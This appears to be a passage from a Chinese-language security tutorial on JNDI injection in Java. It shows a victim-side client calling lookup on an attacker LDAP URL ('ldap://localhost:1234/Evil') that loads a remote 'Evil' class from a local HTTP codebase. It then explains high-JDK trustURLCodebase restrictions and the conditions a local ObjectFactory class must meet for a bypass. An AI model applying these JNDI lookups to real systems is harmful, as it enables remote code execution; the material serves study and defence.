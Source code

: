 此时相当于LDAP服务是开在port1234端口，而Reference对象的classFactoryLocation才是"http://127.0.0.1:8000/#Evil"

因此对于受害者来说，其模拟为：

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class JNDIClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        RMIinterface rmIinterface = (RMIinterface)initialContext.lookup("ldap://localhost:1234/Evil");
        rmIinterface.test();
    }
}
```

# 高版本JDK的绕过

遗憾的是，JDK 11.0.1、JDK 8u191、JDK7u201、JDK6u211起LDAP中的trustURLCodebase也变成了False

这种情况下我们再也没办法像以前那样直接可控lookup参数就可以进行JNDI注入了，但还是存在一些可能的绕过手段

## 使用本地的Reference Factory类

JDK8u191后现在我们没办法远程加载类了，那我们只能寻找倘若正常流程运行有没有可以触发漏洞的Factory类了，首先回顾下和`getObjectFactoryFromReference`中的实现

```java
return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
```

首先对于一个本地的Factory类，最好要是他的无参构造方法就可以被我们RCE（想🍑呢！这显然是不可能的），那么我们要使他继续往下面走，就必须使Factory类是实现了ObjectFactory接口的，当然了，还要求这个类不能只有有参构造方法，否则也不能顺利执行`clas.newInstance() `再来看下得到factory之后的操作，在`Naming.getObjectInstance`中：

```java
factory = getObjectFactoryFromReference(ref, f);
if (factory != null) {
  return factory.getObjectInstance(ref, name, nameCtx,
                                   environment);
}
// No factory found, so return original refInfo.
// Will reach this point if factory class is not in
// class path and reference does not contain a URL for it
return refInfo;
```

得到factory后发现调用了factory的getObjectInstance方法并返回，所以Factory类还必须有getObjectInstance方法，所以我们目前的任务就是需要找到一个JDK内置的或者常见的类满足：

1. 实现了ObjectFactory接口
2. 不能仅有有参构造方法
3. 有getObjectInstance方法
4. getObjectInstance中有可以利用的点
